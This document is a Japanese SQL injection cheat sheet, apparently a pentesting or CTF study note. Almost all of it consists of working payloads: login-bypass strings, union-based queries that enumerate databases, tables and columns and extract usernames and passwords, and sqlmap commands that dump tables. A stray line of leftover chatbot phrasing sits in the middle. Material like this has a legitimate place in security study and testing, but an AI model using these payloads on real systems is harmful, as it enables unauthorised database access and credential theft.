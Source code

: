 
# 目次
1. [Basic](#basic)
   1. [有効性のチェック](#有効性のチェック)
   2. [テーブル数を特定する](#テーブル数を特定する)
2. [Union Based SQLインジェクション](#union-based-sqlインジェクション)
3. [SQLmapの使用例](#sqlmapの使用例)

---

# Basic

## 有効性のチェック
- `' or '1'='1';--`を入力し、通常の入力時と挙動の違いがあるかを**BurpSuite**などのツールを使って確認します。

### 例として使用可能なSQLインジェクション入力
- `admin' or '1'='1`
- `'or '1'='1 --`
- `"or "1"="1`
- `"or "1"="1" --`
- `") or "1"="1 --`
- `"or 1=1 --`
---

# Union Based SQLインジェクション

**Union Based SQL Injection**とは、`union`を使って行を挿入し、内部情報を抽出する手法です。

## テーブル数を特定する
- `' union select null;--`を入力し、カラム数に関するエラーが出た場合は、以下のように徐々にカラム数を増やして特定します。
  
```bash
' union select null, null, null, null, null;--
```

- 以下のコマンドで、カラム数の順序を特定できます。
```bash
' or 1=1 order by 10 #
```

## Unionの具体例と説明

1. **現在のユーザー、データベース、バージョン情報の取得**
   ```bash
   ' or 1=1 union select 1,2,3,user(),database(),version();#
   ```
   - 目的: データベースサーバーにログインしているユーザー名、現在使用しているデータベース名、およびサーバーのバージョン情報を取得します。

2. **データベースの一覧を取得**
   ```bash
   ' or 1=1 union select 1,2,3,group_concat(schema_name),5,6 from information_schema.schemata;#
   ```
   - 目的: データベースサーバーに存在するすべてのデータベース名を取得します。`information_schema.schemata`は、データベース名を保持するテーブルです。

3. **特定のテーブルのカラム名を取得**
   ```bash
   ' or 1=1 union select 1,2,3,group_concat(column_name),5,6 from information_schema.columns where table_name='Users';#
   ```
   - 目的: `Users`という名前のテーブルに含まれるカラム（列）の名前を取得します。`information_schema.columns`は、すべてのテーブルのカラム情報を保持するテーブルです。

4. **特定のテーブルからユーザーID、ユーザー名、パスワードを抽出**
   ```bash
   ' or 1=1 union select 1,2,group_concat(UserID),group_concat(Username),group_concat(Password),6 from Users;#
   ```
   - 目的: `Users`テーブルからユーザーID、ユーザー名、およびパスワード情報をまとめて取得します。複数のデータを`group_concat`関数で連結しています。

5. **特定のデータベースのテーブル名を取得**
   ```bash
   ' or 1=1 union select 1,2,3,group_concat(table_name),5,6 from information_schema.tables where table_schema='users';#
   ```
   - 目的: `users`データベースに含まれるすべてのテーブル名を取得します。`information_schema.tables`は、すべてのデータベース内のテーブル情報を保持するテーブルです。

6. **特定のテーブルのカラム名を取得（具体例: UserDetailsテーブル）**
   ```bash
   ' or 1=1 union select 1,2,3,group_concat(column_name),5,6 from information_schema.columns where table_name='UserDetails';#
   ```
   - 目的: `UserDetails`という名前のテーブルに含まれるカラム（列）の名前を取得します。この例では、`id`, `firstname`, `lastname`, `username`, `password`, `reg_date`といったカラムが含まれます。

7. **ユーザー名とパスワードの取得（具体例: UserDetailsテーブル）**
   ```bash
   ' or 1=1 union select 1,2,3,group_concat(username),group_concat(password),6 from users.UserDetails;#
   ```
   - 目的: `UserDetails`テーブルからすべてのユーザー名とパスワードを取得します。`group_concat`関数を使用して、複数のユーザー情報をまとめて抽出しています。

---

これで、各行の目的や意味がより明確になりました。内容に不明な点があればお知らせください。

# SQLmapの使用例

**SQLmap**は、SQLインジェクションの検出や悪用に特化したツールです。以下はその基本的な使用例です。

1. **目標のURLを特定する**  
   SQLmapで検査対象のウェブサイトやアプリケーションのURLを指定します。
   
2. **検査の開始**  
   SQLmapで対象のURLに対してSQLインジェクション攻撃を実行します。
   
   ```bash
   sqlmap -u <target_URL>
   ```
   例: `sqlmap -u http://example.com/page.php?id=1`

3. **自動検出**  
   SQLmapは自動で脆弱性を検出します。検出結果は詳細に表示されます。

4. **脆弱性の調査と悪用**  
   SQLmapでデータベースの情報を抽出したり、脆弱性を利用して攻撃を実行できます。

   - データベースの名前を取得:
     ```bash
     sqlmap -u <target_URL> --dbs
     ```

   - テーブルを列挙:
     ```bash
     sqlmap -u <target_URL> -D <database_name> --tables
     ```

   - テーブルのデータを取得:
     ```bash
     sqlmap -u <target_URL> -D <database_name> -T <table_name> --dump
     ```

---

# 参考リンク
- [SQLmapの公式ドキュメント](https://shukapin.com/security/sqlmap)
- [HackTricks SQL Injection](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap)

---

# SQLmapのオプション

| オプション  | 説明                           | 例                              |
|-------------|--------------------------------|---------------------------------|
| `-u`        | URL指定                        | `sqlmap -u http://10.10.10.1/`  |
| `--batch`   | インタラクティブモードを無効化  | `sqlmap -u URL --batch`         |
| `--dbs`     | 利用可能なデータベース名の取得  | `sqlmap -u URL --dbs`           |
| `--all`     | すべての情報を取得              | `sqlmap -u URL --all`           |

---